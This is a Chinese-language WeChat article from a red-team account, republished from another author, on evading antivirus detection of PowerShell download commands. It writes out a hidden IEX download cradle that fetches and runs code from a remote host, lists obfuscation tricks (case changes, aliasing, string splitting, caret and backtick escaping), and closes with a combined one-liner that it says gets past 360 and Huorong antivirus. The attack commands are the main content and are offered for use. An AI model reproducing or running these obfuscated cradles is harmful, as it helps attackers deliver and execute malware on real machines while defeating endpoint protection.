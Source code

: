 #  Bypass_AV - Powershell命令免杀

[ 渗透攻击红队 ](javascript:void\(0\);)

**渗透攻击红队** ![]()

微信号 RedTeamHacker

功能介绍 一个专注于渗透红队攻击的公众号

____

__

收录于话题

编者荐语：

学习一波

以下文章来源于不懂安全的校长 ，作者校长

![](http://wx.qlogo.cn/mmhead/Q3auHgzwzM6fWjaX953fWcIeWO2XYI40qbq9Mibxr5NJ0ODVk7uibZOw/0)
**不懂安全的校长** .

校长不懂安全，总是发些奇奇怪怪的东西！

## 0x01 前言

    
    
    powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.190.128:80/a'))"  
    

现在powershell指令一般都会被拦截，且不说.ps1现在能不能过免杀，这次我们先来讨论`powershell加载命令能否Bypass_AV`

对于这种一句话，我们需要去思考！

## 0x02 官方文档

我们先去官网查看相关的文档

 **文档:**

  * `https://docs.microsoft.com/zh-cn/powershell/module/microsoft.powershell.core/about/about_quoting_rules?view=powershell-7.1`
  * `https://docs.microsoft.com/zh-cn/powershell/module/microsoft.powershell.core/about/about_aliases?view=powershell-7.1`
  * `https://docs.microsoft.com/zh-cn/powershell/scripting/developer/cmdlet/required-development-guidelines?view=powershell-7.1`

## 0x03 准备 && 思路

环境:`Powershell 5`

测试免杀环境:`Windows 10`

杀软:`360 && 火绒`

测试时间:`2021年9月7日`

将进行免杀的时候， **我们需要思考一下思路都有什么？**

  *  **大小写绕过**
  *  **管道符**
  *  **修改函数名**
  *  **命令拆分**
  *  **反引号处理**

####  Tip:

`进行Powershell命令绕过，我们可以先了解WEB方面的远程命令执行以及它的各种Bypass姿势，有助于我们对Powershell加载命令进行免杀`

## 0x04 开始爬坑

#### 大小写

    
    
    powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.190.128:80/a'))"  
    

通过对整个语句进行`大小写`，看看能不能Bypass_AV

修改后:

## 0x05 组合拳

将上面的思路组合在一起来进行绕过

Powershell:

    
    
    cmd /c echo set-alias -name xz -value IEX;x^z (New-Object "Ne`T.WeB`ClienT").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19’+'2.168.190.12'+'8/a') | p^o^w^e^r^s^h^e^l^l -  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210908145431.png)直接起飞，`360
&& 火绒` 直接绕过执行命令

## 0x06 结尾

对于`Powershell加载命令`来说，多阅读官方文档肯定是没错的，多了解几个函数，几个功能！对于我们进行免杀是有莫大帮助的。方法肯定不止局限于我列举的这几种，推荐`公众号
@XG小刚`本文也以这个为参考。

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

Bypass_AV - Powershell命令免杀

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

